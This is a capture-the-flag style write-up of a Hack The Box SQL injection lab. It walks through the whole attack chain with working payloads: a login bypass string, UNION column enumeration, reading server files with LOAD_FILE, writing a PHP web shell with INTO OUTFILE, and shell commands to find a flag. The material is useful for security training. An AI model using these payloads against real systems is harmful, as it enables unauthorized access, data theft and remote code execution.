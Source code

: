 # Skills Assessment - SQL Injection Fundamentals  

[Skills Assessment - SQL Injection Fundamentals](https://academy.hackthebox.com/module/33/section/518)  

>The company Inlanefreight has contracted you to perform a web application assessment against one of their public-facing websites. 
>In light of a recent breach of one of their main competitors, they are particularly concerned with SQL injection vulnerabilities 
>and the damage the discovery and successful exploitation of this attack could do to their public image and bottom line.  

>They provided a target IP address and no further information about their website.
>Perform a full assessment of the web application from a "grey box" approach, checking for the existence of SQL injection vulnerabilities.  

## Enumeration  

>WEB Application Target: `94.237.55.149:36332`  

>On the login screen authentication bypass is achieved using SQL injection.  

```
admin' or '1'='1';#--
```  

![sqli-skill-assess-auth-bypass](/images/sqli-skill-assess-auth-bypass.png)  

>The web application has a search function.  

![sqli-skill-assess-site-search](/images/sqli-skill-assess-site-search.png)  

## SQLi Exploitation  

>After determine the search function is vulnerable to sql injection, need to determine the number of columns in sql query of php page:  
>[Union Injection - Detect number of columns - Location of Injection](https://academy.hackthebox.com/module/33/section/216)  

```
search=adam'+UNION+select+1,2,3,4,5--+-
```

>Identified 5 columns.  

>Test the ability to load files and read the source code from php page.  

```
search=adam'+UNION+select+1,2,3,4,LOAD_FILE("/var/www/html/dashboard/dashboard.php")--+-
```  

>Source code of the dashboard.php.  

>Validate if the outfile write permissions are on the user running the web app service.  

```
search=adam'+UNION+select+1,2,3,4,"outfile+success"+into+outfile+"/var/www/html/dashboard/proof.txt"--+-
```  

>Checking if the `proof.txt` file was created and content listed by browsing to [http://94.237.55.149:36332/dashboard/proof.txt](http://94.237.55.149:36332/dashboard/proof.txt)  


## WebShell

>Create a webshell using the outfile function.  [Write Files](https://academy.hackthebox.com/module/33/section/793)  

```
search=adam'+UNION+select+1,2,3,4,"<%3fphp+system($_REQUEST[0])%3b+%3f>"+into+outfile+"/var/www/html/dashboard/webproof.php"--+-
```  

>Validate webshell and remote code execution on the target web server.  

[http://94.237.55.149:36332/dashboard/webproof.php?0=id](http://94.237.55.149:36332/dashboard/webproof.php?0=id)  

## Enumeration via WebShell  

>Using the webshell to perform local Enumeration of the target and locate sensitive flag data.  

```
GET /dashboard/webproof.php?0=ls+../../../.. 
```  

>Located the flag.txt  

```
GET /dashboard/webproof.php?0=cat+../../../../flag_cae1dadcd174.txt
```  

>Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.  

![sqli-skill-assess-webshell](/images/sqli-skill-assess-webshell.png)  
